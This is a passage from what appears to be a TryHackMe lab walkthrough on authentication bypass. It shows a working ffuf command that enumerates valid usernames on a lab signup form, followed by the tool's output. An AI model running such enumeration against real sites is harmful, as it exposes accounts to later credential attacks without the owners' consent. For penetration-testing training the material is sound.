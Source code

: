 ```powershell
aacelearning   [Status: 200, Size: 2395, Words: 503, Lines: 52, Duration: 190ms]
aaanalytics    [Status: 200, Size: 2395, Words: 503, Lines: 52, Duration: 193ms]
```

## **Authentication Bypass**

As the name suggests, it is the bypass of authentication provided by the web servers. We will learn about different ways website authentication methods can be bypassed, defeated or broken.

### Username Enumeration

A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames, which we'll use later in other tasks. Website error messages are great resources for collating this information to build our list of valid usernames. We have a form to create a new user 
account if we go to the Acme IT Support website (`http://<IP>/customers/signup`) signup page.

If you try entering the username **admin** and fill in the other form fields with fake information, you'll see we get the error **An account with this username already exists**. We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below. The ffuf tool uses a list of commonly used usernames to check against for any matches.

Username enumeration with `ffuf`

```bash
abu@Abuntu:~/Documents/TryHackMe/Rooms/JrPenTester$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://<IP>/customers/signup -mr "username already exists"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://<IP>/customers/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________

admin   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 182ms]
alex    [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 217ms]
robert  [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 178ms]
simon   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 183ms]
steve   [Status: 200, Size: 3720, Words: 992, Lines: 77, Duration: 245ms]
:: Progress: [10177/10177] :: Job [1/1] :: 219 req/sec :: Duration: [0:01:02] :: Errors: 0 ::
```
